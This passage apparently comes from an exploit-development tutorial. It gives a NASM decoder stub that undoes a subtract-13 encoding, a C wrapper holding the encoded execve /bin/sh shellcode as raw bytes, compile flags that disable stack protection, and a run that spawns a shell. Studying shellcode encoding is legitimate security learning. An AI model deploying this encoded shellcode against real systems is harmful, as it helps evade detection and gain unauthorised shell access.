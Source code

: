 ```nasm
    mov al, 22  
decode:  
    sub byte [esi], 13      ; Decode byte at [esi]  
    dec al  
    jz shellcode              
    inc esi  
    jmp short decode  
  
get_shellcode_addr:  
    call ReturnLabel  
    shellcode: db  0x3e, 0xcd, 0x5d, 0x96, 0xef, 0x75, 0x3c, 0x3c, 0x80, 0x75, 0x75, 0x3c, 0x6f, 0x76, 0x7b, 0x96, 0xf0, 0x5d, 0xbd, 0x18, 0xda, 0x8d  
```

---

### 3\. Extract shellcode into C wrapper

Why do we need this? The shellcode is defined in the text segment, which means editing it will crash the program, so we need a C wrapper where the shellcode is decoded without causing issues.  

```cpp
/*  
 Rot13ExecveSh.c  
By Abatchy  
gcc Rot13ExecveSh.c -fno-stack-protector -z execstack -o Rot13ExecveSh.out  
*/  
  
#include <stdio.h>  
#include <string.h>  
  
unsigned char sc[] =   
"\xeb\x0f\x5e\x31\xc0\xb0\x16\x80"  
"\x2e\x0d\xfe\xc8\x74\x08\x46\xeb"  
"\xf6\xe8\xec\xff\xff\xff\x3e\xcd"  
"\x5d\x96\xef\x75\x3c\x3c\x80\x75"  
"\x75\x3c\x6f\x76\x7b\x96\xf0\x5d"  
"\xbd\x18\xda\x8d";  
  
int main()  
{  
    printf("Shellcode size: %d\n", strlen(sc));  
    int (*ret)() = (int(*)())sc;  
    ret();  
}  
```

Now compile and run!  
```console
abatchy@ubuntu:~/Desktop/work$ gcc Rot13ExecveSh.c -fno-stack-protector -z execstack -o Rot13ExecveSh.out  
abatchy@ubuntu:~/Desktop/work$ ./Rot13ExecveSh.out   
Shellcode size: 44  
$ exit  
```    

---